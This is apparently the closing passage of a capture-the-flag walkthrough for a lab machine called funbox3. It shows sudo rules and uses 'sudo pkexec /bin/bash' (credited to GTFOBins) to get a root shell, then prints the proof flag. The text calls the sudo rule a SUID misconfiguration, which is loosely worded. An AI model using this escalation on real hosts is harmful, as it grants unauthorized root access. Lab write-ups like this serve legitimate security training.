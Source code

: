 ```
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

We can use this misconfigured SUID bit to escalate our privileges.

We can find the this payload on [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/#sudo).

![4](https://github.com/user-attachments/assets/605f39e5-87fd-4e73-92c8-b19e6a430553)

```
tony@funbox3:~$ sudo pkexec /bin/bash
root@funbox3:~# whoami
root
```

### proof.txt

```
root@funbox3:~# cat /root/proof.txt
ba6a70ed34367bbc540fe8cbef18b4e4
```
